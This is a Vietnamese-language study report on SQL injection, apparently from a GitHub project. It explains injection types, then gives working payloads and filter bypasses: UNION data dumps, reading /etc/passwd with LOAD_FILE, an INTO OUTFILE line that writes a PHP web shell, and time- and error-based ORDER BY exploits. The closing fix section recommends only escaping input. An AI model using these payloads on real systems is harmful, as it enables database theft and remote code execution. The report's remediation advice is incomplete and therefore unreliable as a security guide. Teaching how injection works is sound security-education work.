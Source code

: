#REPORT
----------------------------------

##SQL Injection

1. **Nguyên nhân**:
 	- App sử dụng input của người dùng mà không thông qua việc làm sạch các kí tự liên quan với ngôn ngữ truy vẫn SQL như ***",',-,...***.
 	- Sử dụng phương pháp cộng chuỗi để ghép input người dùng vào câu lệnh SQL và truyền xuống database.
 	- Các input có thể là: username, password, search-keyword, cookies,...
2. **Phân loại:**
 	* In-band SQL Injection: Đây là loại cổ điển, phổ biến và dễ khai thác nhất, bởi vì output đều rõ ràng và chúng ta có thể nhận biết khá dễ dàng.
 	
		* Error-Based SQLi: Dựa trên các lỗi, exception được xuất ra màn hình khi có các hàm hoặc query chạy sai. Trong một số trường hợp, chỉ Error-Based không đủ để có thể liệt kê một số trường của database.
		* Union-Based SQLi: Loại tấn công dựa trên câu lệnh **UNION** với 2 mệnh đề **SELECT**, app sẽ xuất ra data mà atker cần dưới dạng plain-text. Các lệnh hỗ trợ đi kèm thường là ***limit, order by, offset,...***.
 	
 	* Inferential SQL Injection: Hay còn được biết với cái tên Blind SQL Injection. Đúng như cái tên, vì output không được xuất ra hoặc không rõ ràng nên phải dựa vào cách mà app phản ứng đối với các query lạ như ***sleep(), benchmark(),...***
 		* Time-Based SQLi: Dựa vào thời gian delay của app để truy xuất thông tin thông qua các câu điều kiện như ***IF,...*** và các hàm ***sleep(), benchmark()***
 		* Boolean-Based SQLi: Dựa vào "giá trị" ***đúng/sai*** của câu query bằng toán tử ***&&*** và các hàm như ***ascii(), exists(),...***
 	* Một số loại khác: Second order SQL Injection (kết hợp cả 2 loại trên),...
 	* Out of band SQL Injection: Đây là loại ít phổ biến nhất do kho phát hiện vì app không phản ứng hay trả kết quả với các phản ứng lạ. Chính vì vậy, attker sẽ thông qua một kênh khác để khai thác lỗi này bằng DNS hoặc HTTP Requests.

3. **Attker có thể làm được gì với SQL Injection:**
 	* Tất nhiên điều gần như chắc chắn có thể làm là truy xuất thông tin của database, tất cả dữ liệu nằm trong database một cách không hợp lệ.
 	* Nguy cơ cao hơn là có thể bị thay đổi dữ liệu trong database nếu như developer phân quyền không cẩn thận. Attker có thể làm việc này thông qua các câu truy vấn như ***DROP TABLES, UPDATE, INSERT, DELETE, MODIFY,....***
 	* Ngoài ra, SQLi có thể dẫn đến RCE nhờ vào chức ra output INTO OUTFILE của SQL, điều này tạo cho attker khả năng ghi file(chỉ trong một số trường hợp) đặc biết là file đuôi **.php**.

4. ***Các truy vẫn thường dùng:***

	* ***UNION***: Ghép kết quả của 2 bảng và 2 bảng này phải trùng số cột, cú pháp: ***SELECT ... UNION SELECT ...***. Đây là truy vấn dùng rất nhiều trong khai thác SQL Injection, đặc biệt là In-band SQLi.
	* ***ODER BY, GROUP BY***,...: 2 truy vấn để tìm số cột của câu select trước, hỗ trợ khai thác bằng truy vấn ***UNION***.
	* ***CONCAT()***,...: Hàm có chắc năng cộng các chuỗi kết quả với nhau. Ví dụ câu *SELECT* đầu tiên có dạng như *SELECT username FROM user WHERE ...*, nếu không dùng concat(), thì mỗi truy vấn sẽ chỉ lấy được 1 trường của database. Nếu dùng concat thì sẽ tiết kiệm được nhiều thời gian. Ví dụ: *SELECT username FROM users WHERE id=1 union SELECT CONCAT(phonenumber,email,...) FROM users -- -*
	* ***LIMIT, OFFSET***: Sắp xếp hoặc giới hạn số hàng mà câu truy vấn có thể trả về, vì đôi khi app sẽ chỉ xuất ra màn hình kết quả đầu tiên trong bảng kết quả của chúng.
	* ***CAST(),EXTRACTVALUE()***: Chuyển đổi kiểu dữ liệu giữ các data, hữu dụng trong ***Error-based***.
	* ***HEX(), ASCII(),...***
	* ***LOAD_FILE()***: Đọc nội dung các file chưa thông tin nhạy cảm của server, ex: ***/etc/passwd, /etc/shadow,...***. Ví dụ: ***SELECT LOAD_FILE('/etc/passwd')***.
	* ***INTO OUTFILE***: Ghi kết quả của câu select vào một file nào đó (nếu user hiện tại có quyền ghi). Đây là câu lệnh có thể dẫn tới ***RCE*** (Remote Code Excution). Ví dụ: ***... UNION SELECT "<?php system("$_GET['cmd']"); ?>" INTO OUTFILE /var/www/html/shell.php*** (Trong trường hợp root directory là */var/www/html/*).
	* ***LIKE, BINARY LIKE,...***: Toán tử search **substring**, trả về true nếu **substring** được tìm thấy. Ví dụ: ***SELECT * FROM users WHERE username like "1337%"***. Câu truy vấn trên sẽ trả về tất cả những hàng có ***username*** bắt đầu bằng **"1337"**. Đây là toán tử rất hữu dụng trong khai thác Blind SQL Injection, có thể dùng nó để chạy các giải thuật **Brute-force**.
	* ***xmp..dirtree()***: 1 hàm trong MSSQL, hỗ trợ khai thác out of band sql injection.
	
5. **Bypass:**
Tuy đã có cơ chế để lọc một số input nhưng bên cạnh đó vẫn có cách để bypass chúng, dưới đây là một số cách:
	* URL Encoding:
		* ***?id=1%27+or+1=1+--+-***
	* Muti-Encoding:
		* ***?id=1%2527%2Bor%2B1=1%2B--***. Khi đó %2527 sẽ trở thành %27 = "
	* Blacklist:
		![alt text](img/code1.png)
		* ***?id=1 UniOn sElEct * FrOm users -- -***. Nguyên nhân là do code phân biệt chữ hoa và chữ thường.

		![alt text](img/code2.png)
		
		* Ở đây code đã replace mà không phân biệt hoa thường bằng hàm *str_ireplace()*, payload như sau: ?id=1 UNI**UNION**ON SE**SELECT**LECT * FR**FROM**OM users -- -
	
		* Dựa trên ***Parameter Pollution***:  Một số ứng dụng khi nhận nhiều hơn 1 các tham số trùng tên sẽ sử dụng tham số đâu tiền, một số sử dụng tham số sau cùng, một số lại xử lí tất các tham số đó, có thể thông qua điểm này để bypass blacklist.Ví dụ payload: 
		***?id=1+unio&id=n+selec&id=t+\*+fro&id=m+user+--+-***
		* Sử dụng inline comment của SQL, cú pháp /* comment */. Tùy thuộc vào version của database đang sử dụng mà kĩ thuật này có thành công hay không. Nếu system parse comment thành null byte hoặc kí tự rỗng thì có khả năng thành công. Ví dụ payload: 
			***?id=1+uni/\*\*/on+sele/\*\*/ct+\*+fr/\*\*/om+users+--+-***.
		* Buffer over flow: payload 
			***?id=1+/\* 'A'\*100000 \*/+union+select+\*+from+users+--+-***
		* Ngoài ra, các keyword như ***or*** hoặc ***and*** cũng sẽ bị filter, có thể bypass bằng các kí tự ***||*** và ***&&***.
	
	* SQL comment excution: Từ **MySQL** version *2.23.02* đã hỗ trợ chức năng chạy query trong comment, cú pháp như sau: /\*!32302 query \*/. Ví dụ: ***SELECT+\*+/\*!32302 FROM \*/ users+--+-*** hoặc  ***SELECT+/\*!32302 1/0 \*/+FROM+users+--+-***. Nếu thực hiện được, query trên sẽ trả về lỗi ***divison by 0 error***
	* Khác: Khai thác ở các truy vấn khác như ***limit, order by, offset,...***

6. ***Ví dụ một cuộc khai thác SQL Injection:***
	* Tấn công SQL Injection dựa trên truy vấn ***Order By*** và ***Group By***: một số app có tính năng sắp xếp kết quả của query trả về, và người lập trình không filter tham số tham gia việc sắp xếp. Ví dụ câu truy vấn sau:
		
		***SELECT * FROM users WHERE username like ("%+ $username +%") order by 1 + ==$order==***
 		
 		Đối với câu truy vấn trên, nếu biến $order chưa được filter thì hoàn toàn có thể dính lỗi SQL Injection
 	
 		* Exploit: Đầu tiên, giá trị mong muốn của người lập trình truyền vào biến ***$order*** là ***ASC*** hoặc ***DESC***. Với 2 kiểu sắp xếp khác nhau, nhưng mệnh đề ***order by*** có thể sử dụng nhiều hơn một cột để sắp xếp. Do đó ta có thể tiếp cận lỗi này bằng các kiểu khai thác như ***Time-based***, ***Boolean-based***, thậm chí là ***Union-based********* nếu truy vấn ở trên không phải là ***order by*** mà là ***group by***.
 		
 			* Time-based:
 			Tham số nếu truyền vào bình thường sẽ như sau: ***?username=abc&order=ASC***. Thay vào đó, attker truyền vào tham số ***order*** như sau: 
 			***&order=,==(select if((1=1), sleep(5),false))==***.
 			
 			Khi đó query trở thành:
 			***SELECT * FROM users WHERE username like ("%abc%") order by 1,(==select if((1=1),sleep(5),false)==)***
 			
 			Nếu app bị time out hoặc delay một thời gian bằng ***5\*<số kết quả trả về\>*** (5 là số giây delay của mỗi kết quả) thì web đã bị dính lỗi SQL Injection. Từ đó, có thể thay điều kiện ***(1=1)*** thành các câu các như ***EXISTS(SELECT ... LIKE ...)*** và dựa vào thời gian response để trính xuất data.
 			* Error-based: Thường ít xuất hiện vì ít có ứng dụng nào cho output là lỗi của query cả(không khả thi):
 			Payload như sau: ***username=abc&order=,(extractvalue(rand(),concat(CHAR(126),==version()==,CHAR(126))))***
 			Thay ***==version()==*** thành câu SELECT bất kì.
 			
7. **Một số lỗi ở Real World**

8. **Khắc phục:**
	* PHP cung cấp một hàm rất hữu dụng để filter input người dùng khỏi SQL Injection là ***mysql_real_escape_string()***.
	* Hạn chế sử dụng phương pháp cộng chuỗi, đặc biệt là với input người dùng.